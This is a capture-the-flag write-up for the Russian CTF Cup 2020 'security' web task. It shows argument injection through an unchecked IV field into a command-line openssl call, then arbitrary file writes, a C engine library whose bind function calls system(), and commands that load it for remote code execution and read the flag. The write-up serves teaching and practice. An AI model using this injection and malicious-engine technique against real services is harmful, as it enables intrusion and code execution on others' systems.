

+++
title = 'Russian CTF Cup 2020 — security'
date = 2020-11-30T12:39:19+03:00
tags = ['ctf', 'writeup', 'web']
toc = true
tldr = 'provide a native engine to openssl using an injection to command arguments'
+++

The full source code is available here: [https://github.com/keltecc/ctfcup-2020-web-tasks/tree/master/security](https://github.com/keltecc/ctfcup-2020-web-tasks/tree/master/security). Note that the challenge source code was not provided to participants.

## Overview 

The challenge is a web service that could encrypt and decrypt arbitary data with an arbitrary key.



We could try to provide an invalid parameters (for example bad key or iv length) in order to get the backend error. The error looks like this:

```
bad decrypt
140489628592896:error:06065064:digital envelope routines:EVP_DecryptFinal_ex:bad decrypt:evp_enc.c:531:
```

We can google this error and recognize the `openssl` library. Let's try to send another invalid parameters to gather more backend errors. The service contains the following checks:

- key length and IV length should be 32
- the mode should be selected from modes in web interface
- during the decryption a ciphertext should be hex-encoded
- the key should contain only hex symbols, **but for IV this check is missed**

Since the IV could contain arbitrary symbols, let's try to pass some symbols. Note that we need to use CBC mode since ECB does not use IV. If we pass a whitespace as an IV symbol (for example `8F0151BC1F8C30E2992DE5DF9CF121 C`) we will get the following error:

```
unknown option 'C'
options are
-in <file>     input file
-out <file>    output file
-pass <arg>    pass phrase source
-e             encrypt
-d             decrypt
-a/-base64     base64 encode/decode, depending on encryption flag
-k             passphrase is the next argument
-kfile         passphrase is the first line of the file argument
-md            the next argument is the md to use to create a key
                 from a passphrase.  One of md2, md5, sha or sha1
-S             salt in hex is the next argument
-K/-iv         key/iv in hex is the next argument
-[pP]          print the iv/key (then exit if -P)
-bufsize <n>   buffer size
-nopad         disable standard block padding
-engine e      use engine e, possibly a hardware device.
Cipher Types
-aes-128-cbc               -aes-128-ccm               -aes-128-cfb              
-aes-128-cfb1              -aes-128-cfb8              -aes-128-ctr              
...
```

It means that the `openssl` have splitted our IV by whitespace and used `C` as another argument. It means that `openssl` is executed in command line and we can control its arguments.

## Solution

Let's look what we could do with command injection.

- we immediately could read and write arbitrary files on the system using `-in <file>` and `-out <file>` parameters, note that the content will be decrypted so we need to pass an encrypted file content
- we could notice the interesting key:

```
-engine e      use engine e, possibly a hardware device.
```

This key is used to provide a custom native engine for `openssl`, the engine is a `.so` library which incapsulates the functions for encryption and decryption. Since we're able to upload files we can upload `.so` file and provide it with the `-engine` parameter.

The example of native engine could be found on the internet. The simplest example is the following:

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
    system("id");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

This code should execute `id` during the encryption process. Let's build it as a library and upload to `/tmp/libsploit.so` using `-out <file>` parameter:

```
gcc -fPIC -shared -lcrypto -o libsploit.so libsploit.c
```

Then provide `-engine /tmp/libsploit.so` parameter for `openssl`:

```
invalid engine "/tmp/libsploit.so"
139644963072768:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
139644963072768:error:2606A074:engine routines:ENGINE_by_id:no such engine:eng_list.c:390:id=/tmp/libsploit.so
139644963072768:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
bad decrypt
139644963072768:error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length:evp_enc.c:520:
uid=1000(security) gid=1000(security) groups=1000(security)
uid=1000(security) gid=1000(security) groups=1000(security)
```

This error means that our engine does not export required functions for encryption. But the `bind()` function is called and we got RCE. Let's send `ls -la && cat flag*` to read the flag.

```
invalid engine "/tmp/libsploit.so"
140500984400640:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
140500984400640:error:2606A074:engine routines:ENGINE_by_id:no such engine:eng_list.c:390:id=/tmp/libsploit.so
140500984400640:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
bad decrypt
140500984400640:error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length:evp_enc.c:520:
total 24
drwxr-xr-x 1 root root 4096 Nov 29 20:38 .
drwxr-xr-x 1 root root 4096 Nov 26 20:37 ..
-rw-r--r-- 1 root root   40 Nov 26 21:21 flag_ff9b671626b8477012f041dc42d76c885341bb35c5290fe4a2ae965d80d70a12.txt
-rw-r--r-- 1 root root 2104 Nov 26 20:25 libcrypt.py
-rwxr-xr-x 1 root root 2318 Nov 26 20:59 security_7b6ae759.py
drwxr-xr-x 2 root root 4096 Nov 29 20:38 templates
ctfcup{0p3nssl_1.0_1s_d4ng3r0usssz....}
```
